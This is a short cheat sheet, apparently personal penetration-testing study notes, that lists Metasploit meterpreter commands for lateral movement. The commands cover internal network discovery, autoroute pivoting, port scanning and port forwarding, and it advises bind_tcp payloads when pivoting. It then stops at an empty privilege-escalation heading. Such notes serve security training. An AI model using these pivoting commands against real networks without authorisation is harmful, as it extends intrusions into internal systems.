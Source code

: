 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>`
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
  - `show options` - set rhosts
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
  - check that you are in meterpreter console (`sessions -i <session-number>`) 
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap -sV <local_port> <target>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 


## Privilege Escalation
